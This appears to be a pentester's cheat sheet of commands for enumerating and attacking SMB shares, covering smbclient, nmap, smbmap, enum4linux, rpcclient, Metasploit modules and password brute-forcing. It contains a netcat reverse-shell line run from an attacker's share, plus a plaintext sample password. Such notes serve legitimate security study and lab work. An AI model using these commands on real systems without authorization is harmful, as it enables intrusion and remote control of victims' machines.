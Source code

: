
![[Pasted image 20221208053454.png]]


# enumerating SMB 
```bash

# smbclient
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth
echo exit | smbclient -L \\\\[ip]
smbclient \\\\[ip]\\[share name]

# flags
-L list
-U user



# Others

Enumerate Hostname : nmblookup -A [ip] 

nmap --script smb-enum-shares -p 139,445 [ip] # Or smbb-enum-users

nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 

nmap --script smb-protocols -p 139,445 [ip] # Check for Vulnerabilities - 

smbmap -H [ip/hostname]

smbmap -u guest -p "" -d . -H IP


smbmap -H [ip/hostname]

Overall Scan - enum4linux -a [ip] 

smbver.sh [IP] (port) [Samba] # Manual Inspection

rpccclient -U "" -N IP
# Inside rpc
srvinfo # check info about target
enumdomusers # check users
lookupnames NAME # check for user 
enumdomgroups

# Metasploit
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor # pipe search

-U # Username
-N #Force to not use password aka NULL session attack
get flag_1 - # read file
```
	

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>
```

## Linux
![[Pasted image 20221123163345.png]]
```bash
nmblookup -A <Target IP>

```


# SMB server
smbserver.py NAME $(DIR) -smb2support -user USER -password password
exde1234
```
smbserver.py share DIRECTORY # Start Smbserver



# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT
```




# connect smb windows
$pass = convertto-securestring 'exde1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential $cred -Root \\10.10.17.185\super


# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
use axuilary/scanner/smbb/smb_login # bruteforce 
```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```


# Metasploit

```ruby

use auxiliary/scanner/smb/smb_version # check version

use auxiliary/scanner/smb/smb_enumusers # enumurate users 

use auxiliary/scanner/smb/smb_shares # enumurate shares 
set sharefiles true

use auxiliary/scanner/smb/smb_login # bruteforce login 
```